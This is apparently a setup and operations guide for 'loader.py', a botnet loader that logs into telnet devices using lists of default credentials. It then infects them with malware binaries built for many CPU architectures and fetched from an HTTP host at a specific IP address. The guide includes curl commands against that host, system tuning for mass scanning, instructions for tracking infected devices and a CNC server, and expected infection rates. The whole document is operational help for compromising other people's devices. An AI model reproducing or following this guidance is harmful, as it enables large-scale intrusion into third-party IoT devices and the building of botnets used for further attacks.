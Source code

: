 # Loader.py Setup Guide

## Prerequisites

### 1. **Required Files**
- ✅ `loader.py` - Main loader script
- ✅ `bins/` directory with all architecture binaries
- ✅ Target list file (e.g., `telnet.txt`, `list.txt`)
- ✅ Python 2.7 (script uses Python 2 syntax)

### 2. **Binary Files Required**
Ensure these files exist in `/root/loader/bins/`:
```
static.x86      - x86 architecture
static.arm      - ARM architecture  
static.arm5     - ARM v5
static.arm6     - ARM v6
static.arm7     - ARM v7
static.mips     - MIPS architecture
static.mpsl     - MIPS Little Endian
static.ppc      - PowerPC
static.m68k     - Motorola 68000
static.spc      - SPARC
static.i686     - Intel 686
static.sh4      - SuperH-4
static.arc      - ARC
```

## Setup Steps

### 1. **Prepare Target List**
Create a target list file with format: `IP:PORT USER:PASS`
```bash
# Example telnet.txt:
192.168.1.1:23 admin:admin
10.0.0.1:23 root:12345
172.16.0.1:23 user:password
```

### 2. **Verify Binary Files**
```bash
cd /root/loader
ls -la bins/static.*
# Should show all architecture binaries
```

### 3. **Test HTTP Server**
```bash
# Test if binaries are accessible
curl -I http://185.247.117.214/bins/static.arm
# Should return 200 OK
```

### 4. **Run the Loader**
```bash
cd /root/loader
python loader.py telnet.txt
```

## Configuration Options

### **Thread Count**
- **Recommended**: 50-200 threads
- **High Performance**: 200-500 threads
- **Maximum**: 1000+ threads (system dependent)

### **Target List Format**
```
IP:PORT USER:PASS
192.168.1.1:23 admin:admin
10.0.0.1:23 root:12345
```

### **Output Files**
- `bots.txt` - All successful logins
- `infected.txt` - Successfully infected devices
- `echoes.txt` - Devices that received echo-loaded binaries

## Performance Optimization

### **1. System Limits**
```bash
# Increase file descriptor limits
ulimit -n 999999

# Increase network buffer sizes
echo 'net.core.rmem_max = 134217728' >> /etc/sysctl.conf
echo 'net.core.wmem_max = 134217728' >> /etc/sysctl.conf
sysctl -p
```

### **2. Network Optimization**
```bash
# Increase connection limits
echo 'net.core.somaxconn = 65535' >> /etc/sysctl.conf
echo 'net.ipv4.tcp_max_syn_backlog = 65535' >> /etc/sysctl.conf
sysctl -p
```

### **3. Python Optimization**
```bash
# Install required packages
pip install psutil

# Set environment variables
export PYTHONUNBUFFERED=1
```

## Monitoring and Logs

### **Real-time Status**
The loader shows:
- **Logins**: Successful telnet logins
- **Ran**: Successfully infected devices
- **Echoes**: Echo-loaded devices
- **Wgets**: Devices using wget method
- **TFTPs**: Devices using TFTP method

### **Output Files**
```bash
# Monitor progress
tail -f bots.txt
tail -f infected.txt
tail -f echoes.txt
```

## Troubleshooting

### **Common Issues**

1. **"No such file or directory"**
   - Check if binaries exist in `bins/` directory
   - Verify file permissions

2. **Connection timeouts**
   - Reduce thread count
   - Check network connectivity
   - Verify target IPs are reachable

3. **Low infection rates**
   - Check if CNC server is running
   - Verify binary files are accessible via HTTP
   - Check target credentials

### **Debug Mode**
```bash
# Run with debug output
python -u loader.py telnet.txt
```

## Advanced Configuration

### **Custom Binary Paths**
Edit `rekdevice` variable in `loader.py` to change:
- Download URLs
- Binary names
- Execution commands

### **Custom Timeouts**
Modify timeout values in the script:
- Connection timeout: `tn.settimeout(0.5)`
- Read timeout: `timeout=8`
- Sleep intervals: `time.sleep()`

## Best Practices

1. **Start with small target lists** (100-1000 IPs)
2. **Monitor system resources** during scanning
3. **Use appropriate thread counts** for your system
4. **Keep logs** for analysis
5. **Test with known working targets** first

## Example Usage

```bash
# Basic usage
python loader.py telnet.txt

# With monitoring
python loader.py telnet.txt &
tail -f bots.txt infected.txt

# High performance
ulimit -n 999999
python loader.py telnet.txt
```

## Expected Results

- **Login Rate**: 10-30% of targets
- **Infection Rate**: 5-15% of successful logins
- **Echo Success**: 2-8% of infections
- **Total Success**: 0.1-2% of all targets
